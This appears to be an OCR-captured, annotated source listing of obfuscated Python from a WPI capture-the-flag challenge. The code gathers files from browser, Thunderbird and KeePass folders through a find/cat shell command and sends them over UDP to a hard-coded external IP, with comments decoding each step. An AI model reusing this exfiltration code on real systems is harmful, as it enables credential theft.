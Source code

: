 ```  
           lightning[fire] = lightning[fire].replace('_', '-')  
           lightning[fire] = lightning[fire].replace('w', 'W')  
	# lightning = ['.chromium/', '.mozilla/IceWeasel/', 'WPI{never-use-passWord-autofill}', '.mozilla/Thunderbird/', '.keepass2/']  
       bludgeoning = int(time.time())  
       if(bludgeoning - ranger <= 2):	# if the execution took less than 2 seconds  
           evocation = len(lightning)	# 5  
           for castle in range(evocation): #Ya the ".keepass2/" one is ambitious... but I have seen malware do this  
               devour(lightning[castle], owlbear, gold)	# second and third parameter: <user> (result of whoami), stolen-info.log  
           for aboleth in range(evocation):  
               lightning.pop(ether)  
           # at this point, lightning is much like before, but strings are in byte format, like b'.chromium/' and so on, and between a folder name and another  
           # there is the CONTENT in byte format read from the previously specified folder  
           circle("WPI")	# input parameter is unused; this function performs data exfiltration, by sending 'lightning' list

def devour(poison, gods, tome):  
   ether = -1  
   if(poison[ether] == adventure):      # true for all elements of lightning
that are in the list before 'devour' function calls  
       cat = "cat"  
       buckler = adventure + "home" + adventure + gods + adventure + poison	# /home/<user>/lightning[i] , for example /home/mike/.chromium/  
       lightning.append(bytes(buckler, "ascii"))	# for example b'.chromium/'  
       acid = "find " + buckler + " -type f -exec " + cat + " {} + > " + tome	# find /home/<user>/lightning[i] -type -f -exec cat {} + > stolen-info.log  
       os.system(acid)	# make a query and if the file is there, read its contents and copy them to stolen-info.log  
       spell = open(tome, "rb")	# read result from stolen-info.log  
       ate = spell.read()  
       spell.close()  
       lightning.append(ate)		# append sensitive data read to lightning

def circle(viciousMockery):  
   ether = 0  
   roc = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  
   while(ether < 1337):  
       ether = ether + 1  
   for elf in lightning:  
       # it is implemented like a stub, because like you can see, 'elf' variable is not sent  
       drow = bytes('0', "ascii") #I remove the data, but you REALLY should run this in a sandboxed environment  
       roc.sendto(drow, ("158.58.184.213", ether)) #this is not a nice IP, be careful what you send here

def makesoul(orb):  
   soul = []  
   litch = soulMore(orb) # f"NEVER_use_{orb}word_autofill"  
   soul.append(litch)  
   soul.append(soul[0].lower()) # at this point, soul is a list of 2 elements;
the second is f"never_use_{orb.lower()}word_autofill"  
   litch = swords()     # .mozilla/  
   soul[0] = litch + "Ice" + "weasel" # f".mozilla/Iceweasel"  
   soul[0] = soul[0] + adventure # f".mozilla/Iceweasel/"  
   soul[1] = soul[1] + chr(125) # f"never_use_{orb.lower()}word_autofill}"  
   soul.append(litch + "Thunder" + "bird" + adventure) # element added:
f".mozilla/Thunderbird/"  
   return soul          # [".mozilla/Iceweasel/",
f"never_use_{orb.lower()}word_autofill}", ".mozilla/Thunderbird/"]

```